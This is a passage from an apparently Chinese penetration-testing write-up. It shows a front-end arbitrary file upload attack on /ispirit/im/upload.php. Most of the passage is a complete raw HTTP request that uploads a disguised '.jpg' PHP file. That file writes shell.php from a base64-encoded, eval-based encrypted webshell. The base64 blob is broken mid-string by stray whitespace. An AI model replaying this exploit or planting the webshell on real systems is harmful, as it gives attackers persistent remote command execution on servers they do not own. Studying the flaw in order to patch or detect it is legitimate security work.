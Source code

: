 查看到命令被成功执行了！

![image-20210408161457971](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210408161457971.png)



#### Getshell

前台任意文件上传漏洞：抓取任意数据包，修改数据包进行重放，上传后缀为jpg的木马文件（木马文件执行写入文件操作，写一个新的木马脚本：shell.php）

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.16.112:8080
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Connection: close
Content-Length: 1398

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$fp = fopen('shell.php', 'w');
$a = base64_decode("PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKc2Vzc2lvbl9zdGFydCgpOwppZiAoaXNzZXQoJF9HRVRbJ3Bhc3MnXSkpCnsKICAgICRrZXk9c3Vic3RyKG1kNSh1bmlxaWQocmFuZCgpKSksMTYpOwogICAgJF9TRVNTSU9OWydrJ109JGtleTsKICAgIHByaW50ICRrZXk7Cn0KZWxzZQp7CiAgICAka2V5PSRfU0VTU0lPTlsnayddOwoJJHBvc3Q9ZmlsZV9nZXRfY29udGVudHMoInBocDovL2lucHV0Iik7CglpZighZXh0ZW5zaW9uX2xvYWRlZCgnb3BlbnNzbCcpKQoJewoJCSR0PSJiYXNlNjRfIi4iZGVjb2RlIjsKCQkkcG9zdD0kdCgkcG9zdC  ﻿
4iIik7CgkJCgkJZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7CiAgICAJCQkgJHBvc3RbJGldID0gJHBvc3RbJGldXiRrZXlbJGkrMSYxNV07IAogICAgCQkJfQoJfQoJZWxzZQoJewoJCSRwb3N0PW9wZW5zc2xfZGVjcnlwdCgkcG9zdCwgIkFFUzEyOCIsICRrZXkpOwoJfQogICAgJGFycj1leHBsb2RlKCd8JywkcG9zdCk7CiAgICAkZnVuYz0kYXJyWzBdOwogICAgJHBhcmFtcz0kYXJyWzFdOwoJY2xhc3MgQ3twdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJHApIHtldmFsKCRwLiIiKTt9fQoJQG5ldyBDKCRwYXJhbXMpOwp9Cj8+");
fwrite($fp, $a);
fclose($fp);
?>

------WebKitFormBoundarypyfBh1YB4pV8McGB--
```
